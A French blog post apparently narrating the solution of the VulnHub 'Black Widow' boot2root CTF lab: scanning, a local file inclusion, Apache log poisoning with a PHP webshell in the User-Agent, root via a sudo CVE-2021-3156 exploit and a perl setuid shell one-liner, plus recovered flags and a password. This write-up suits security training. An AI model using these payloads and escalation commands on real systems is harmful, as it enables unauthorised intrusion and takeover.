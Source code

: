 ```yaml
---
title: Solution du CTF Black Widow de VulnHub
date: 2022-01-12 13:33:00
tags: [CTF, VulnHub]
---
```


Intro
-----

[Black Widow](https://www.vulnhub.com/entry/black-widow-1,637/) est un CTF créé par *0xJin* et *mindsflee*, disponible sur VulnHub.  

Le CTF est de type boot2root avec un cas d'exploitation web classique qui aurait dû me prendre seulement quelques minutes mais un bug sur le CTF en a décidé autrement :p  

Le scan Nmap nous retourne une pléthore de ports liés aux différents services RPC. NFS aurait pu être de la partie mais aucun export n'est présent.  

Un proxy Squid tourne mais ne nous permet pas d'aller voir en interne (*curl -x http://192.168.56.25:3128/ http://localhost/* nous refuse l'accès).  

```plain
$ sudo nmap -T5 -p- -sCV 192.168.56.25  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-11 20:16 CET 
Nmap scan report for 192.168.56.25 
Host is up (0.00011s latency). 
Not shown: 65526 closed tcp ports (reset) 
PORT      STATE SERVICE    VERSION 
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|   2048 f8:3b:7c:ca:c2:f6:5a:a6:0e:3f:f9:cf:1b:a9:dd:1e (RSA) 
|   256 04:31:5a:34:d4:9b:14:71:a0:0f:22:78:2d:f3:b6:f6 (ECDSA) 
|_  256 4e:42:8e:69:b7:90:e8:27:68:df:68:8a:83:a7:87:9c (ED25519) 
80/tcp    open  http       Apache httpd 2.4.38 ((Debian)) 
|_http-server-header: Apache/2.4.38 (Debian) 
|_http-title: Site doesn't have a title (text/html). 
111/tcp   open  rpcbind    2-4 (RPC #100000) 
| rpcinfo:  
|   program version    port/proto  service 
|   100000  2,3,4        111/tcp   rpcbind 
|   100000  2,3,4        111/udp   rpcbind 
|   100000  3,4          111/tcp6  rpcbind 
|   100000  3,4          111/udp6  rpcbind 
|   100003  3           2049/udp   nfs 
|   100003  3           2049/udp6  nfs 
|   100003  3,4         2049/tcp   nfs 
|   100003  3,4         2049/tcp6  nfs 
|   100005  1,2,3      36713/udp   mountd 
|   100005  1,2,3      44363/tcp   mountd 
|   100005  1,2,3      57572/udp6  mountd 
|   100005  1,2,3      60195/tcp6  mountd 
|   100021  1,3,4      35689/tcp   nlockmgr 
|   100021  1,3,4      44158/udp   nlockmgr 
|   100021  1,3,4      44621/tcp6  nlockmgr 
|   100021  1,3,4      48444/udp6  nlockmgr 
|   100227  3           2049/tcp   nfs_acl 
|   100227  3           2049/tcp6  nfs_acl 
|   100227  3           2049/udp   nfs_acl 
|_  100227  3           2049/udp6  nfs_acl 
2049/tcp  open  nfs_acl    3 (RPC #100227) 
3128/tcp  open  http-proxy Squid http proxy 4.6 
|_http-server-header: squid/4.6 
|_http-title: ERROR: The requested URL could not be retrieved 
35689/tcp open  nlockmgr   1-4 (RPC #100021) 
44363/tcp open  mountd     1-3 (RPC #100005) 
53631/tcp open  mountd     1-3 (RPC #100005) 
54727/tcp open  mountd     1-3 (RPC #100005)
```

Conclusion: on s'en tient au port 80 qu'on maltraite avec l'aide de *Feroxbuster*. L'outil de brute force de paths nous trouve un dossier */company* à la racine du site.  

Assez rapidement je remarque en commentaire HTML le message suivant :  

> We are working to develop a php inclusion method using "file" parameter - Black Widow DevOps Team.

Je n'ai pas vraiment de fichier php à tester donc re-coup de *Feroxbuster* sur les fichiers et il en ressort un fichier *started.php*.  

Je parviens à reproduire la vulnérabilité d'inclusion avec la commande suivante :  

```bash
ffuf -w /wordlists/files/JHADDIX_LFI.txt -u http://192.168.56.25/company/started.php?file=FUZZ -fs 0
```

Il faut remonter une bonne quantité de dossiers avant d'atteindre la racine :  

```plain
http://192.168.56.25/company/started.php?file=../../../../../../../../../../../../../etc/passwd
```

L'étape suivante est bien sûr d'injecter du PHP dans un fichier présent sur le disque avant de l'inclure et là... catastrophe, j'ai tout essayé sans obtenir quoi que ce soit.  

Je me suis dirigé sur l'hypothèse du bug du CTF quand j'ai vu qu'inclure */var/log/apache2/access.log.1* retournait un résultat mais que l'on avait rien pour */var/log/apache2/access.log*.  

Les auteurs du CTF ont en effet simplement dû changer les permissions sur les logs manuellement mais comme logrotate fonctionne, quand moi j'ai démarré la VM, celle-ci a synchronisé son horloge et logrorate a archivé le fichier de log courant pour en créer un nouveau qui a les permissions par défaut (c'est à dire qu'on ne peut pas l'inclure).  

Par conséquent, boot sur la VM avec édition de l'entrée GRUB pour avoir un shell et correction des permissions pour avoir la même situation que les autres personnes ayant déjà résolu ce CTF :-(  

Injection de logs
-----------------

On part sur du classique à savoir passer du PHP dans le User-Agent en évitant d'y mettre apostrophes et guillemets qui risqueraient d'être échapés.  

```bash
curl -A '<?php system($_GET[chr(99)]); ?>' http://192.168.56.25/
```

Cette fois ça fonctionne !  

```plain
http://192.168.56.25/company/started.php?file=../../../../../../../../../../../../..//var/log/apache2/access.log&c=id
```

Kansas City Shuffle
-------------------

On peut passer directement de *www-data* à *root* via la faille sudo :  

```plain
www-data@blackwidow:/tmp/CVE-2021-3156-main$ python exploit_nss.py 
sudoedit: unable to resolve host blackwidow: Temporary failure in name resolution 
# id 
uid=0(root) gid=0(root) groups=0(root),33(www-data) 
# cd /root 
# ls  
root.txt 
# cat root.txt 

▄▄▄▄· ▄▄▌   ▄▄▄·  ▄▄· ▄ •▄     ▄▄▌ ▐ ▄▌▪  ·▄▄▄▄        ▄▄▌ ▐ ▄▌ 
▐█ ▀█▪██•  ▐█ ▀█ ▐█ ▌▪█▌▄▌▪    ██· █▌▐███ ██▪ ██ ▪     ██· █▌▐█ 
▐█▀▀█▄██▪  ▄█▀▀█ ██ ▄▄▐▀▀▄·    ██▪▐█▐▐▌▐█·▐█· ▐█▌ ▄█▀▄ ██▪▐█▐▐▌ 
██▄▪▐█▐█▌▐▌▐█ ▪▐▌▐███▌▐█.█▌    ▐█▌██▐█▌▐█▌██. ██ ▐█▌.▐▌▐█▌██▐█▌ 
·▀▀▀▀ .▀▀▀  ▀  ▀ ·▀▀▀ ·▀  ▀     ▀▀▀▀ ▀▪▀▀▀▀▀▀▀▀•  ▀█▄▀▪ ▀▀▀▀ ▀▪ 

Congrats! 

You've rooted Black Widow! 

0xJin - mindsflee 

0780eb289a44ba17ea499ffa6322b335
```

Regular
-------

Mais on peut voir sur le système un utilisateur *viper* qui dispose d'un fichier *local.txt* (sans doute un flag) dans son répertoire...  

A première vue LinPEAS ne remonte rien d'excitant. Il y a quand même ces capabilities vides sur le binaire perl qui m'échappent :  

```plain
Files with capabilities (limited to 50): 
/usr/bin/perl = 
/usr/bin/perl5.28.1 = 
/usr/bin/ping = cap_net_raw+ep 
/usr/lib/squid/pinger = cap_net_raw+ep
```

Qu'est-ce que ça signifie ? J'ai testé par exemple de lire */etc/shadow* avec mais sans résultats.  

LinPEAS donne aussi une liste de fichiers de logs auxquels on a accès et il y a notamment le fichier */var/backups/auth.log*.  

Une permissions en lecture sur le véritable *auth.log* m'aurait bien aidé pour la faille d'inclusion... Voyons voir ce qu'il y a dans ce fichier.  

```plain
Dec 12 16:56:46 test sshd[29560]: Failed password for invalid user ?V1p3r2020!? from 192.168.1.109 port 7090 ssh2
```

Cette ligne est la plus intéressante. L'utilisateur a visiblement tapé son mot de passe quand le nom d'utilisateur lui était demandé.  

On peut ainsi se connecter sur le compte via SSH.  

Fatality
--------

On peut donc obtenir le flag utilisateur :  

```plain
viper@blackwidow:~$ cat local.txt  
d930fe79919376e6d08972dae222526b
```

L'historique bash de Viper n'a pas été vidé et on peut voir par exemple ces commandes :  

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
--- snip ---
cd backup_site/ 
ls -lrt 
cd assets 
ls -lrt 
cd vendor 
ls -lrt 
cd weapon/ 
ls 
./arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
--- snip ---

```

Comme vu plus tôt le binaire perl ne dispose plus de capabilities. En revanche on peut reprendre les autres commandes car le fichier *arsenic* est bien présent à l'emplacement attendu :  

```plain

viper@blackwidow:~/backup_site/assets/vendor/weapon$ ./arsenic -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";' 
# id 
uid=0(root) gid=1001(viper) groups=1001(viper)
```


*Published January 12 2022 at 13:33*
